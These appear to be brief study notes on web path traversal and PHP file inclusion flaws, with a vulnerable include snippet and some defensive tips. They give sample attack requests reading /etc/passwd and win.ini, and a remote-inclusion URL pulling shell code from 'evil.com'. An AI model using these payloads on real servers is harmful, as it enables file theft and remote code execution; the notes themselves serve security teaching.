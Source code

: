 # Path traversal
- web app need to access resources in the file system to implement the web app such as ( images , text and so son )
- web app use parameters to define resources
- when these parameters are user-controlled and not probebly sanitized security isuues may rise
- the dot-dot-slash Attack
  - `http://www.elsfoo.com/getFile?path=../../../etc/passwd` : Linux --> /
  - `http://www.elsfoo.com/getFile?path=../../../windows/win.ini` : Windows ->\ , /
  - `http://www.elsfoo.com/getFile?path=../../../windows/boot.ini` : Windows
- depending on os root folder can be located :
  - *NIX -- > `/`
  - Windows -- >`<Driver letter>:\`
- to move up a directory use `../`
- terminate the current file name. : `%00`, does not work with PHP versions >= 5.3.4
	- `file_read ("/htdocs/website/reports/" user_input + ".pdf");`
- URL encoding, 16-bit Unicode
- Best defensive Techniques
	- Filter any malicious sequences from the input parameters
# File Inclusion Vulnerabilities 
- File inclusion vulnerabilities are divided in Remote and Local
- LFI : include Function
```
<?php
include("loc/" . $_GET['location']);
?>
```
- these vulunurabilty often found in CMS
- Remote File Inclusion
  - Work the same way as LFI
  - only diff is that the file included is pulled remotely
  - our aim is not to read but to include code execute
  - `vuln.php?page=http://evil.com/shell.txt`
  - In this case, shell.txt (containing PHP code)
  - It is important to know that the file included must not have the .php extension, otherwise the code within the included file will run on the attacker machine
  - RFI is possible because the allow_url_include directive is set to On within php.ini. It is good practice to set it to Off.
# Unrestricted File Upload
